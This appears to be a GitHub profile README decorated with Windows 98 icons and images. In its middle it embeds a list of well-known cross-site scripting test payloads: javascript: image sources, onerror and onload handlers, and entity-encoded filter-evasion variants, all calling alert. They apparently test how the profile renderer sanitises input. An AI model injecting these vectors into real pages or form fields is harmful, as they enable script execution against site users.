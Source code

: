 <img src="https://win98icons.alexmeub.com/icons/png/computer_explorer_cool-0.png" width='36'/>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://win98icons.alexmeub.com/icons/png/directory_closed-4.png" width='36'/>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://win98icons.alexmeub.com/icons/png/internet_connection_wiz-4.png" width='36'/>
<br>
<br>
<img src="https://win98icons.alexmeub.com/icons/png/computer_explorer_cool-0.png" width='36' />
<IMG SRC=”javascript:alert(‘XSS’);”>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
 <IMG SRC=javascript:alert(‘XSS’)>      

<img src=xss onerror=alert(1)>
<IMG “””><SCRIPT>alert(“XSS”)</SCRIPT>”>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=”jav ascript:alert(‘XSS’);”>

<IMG SRC=”jav&#x09;ascript:alert(‘XSS’);”>

<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>

<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<BODY BACKGROUND=”javascript:alert(‘XSS’)”>

<BODY ONLOAD=alert(‘XSS’)>
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
<IMG SRC=”javascript:alert(‘XSS’)”<br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img  src="https://raw.githubusercontent.com/98lenvi/98lenvi/master/aloha.jpg" width='750'>
<br>
<br>
<br>
<img align='right' src="https://win98icons.alexmeub.com/icons/png/recycle_bin_full_cool-0.png" width='36'>
<br>
<br>
<img src="https://raw.githubusercontent.com/98lenvi/98lenvi/master/taskabr.png">
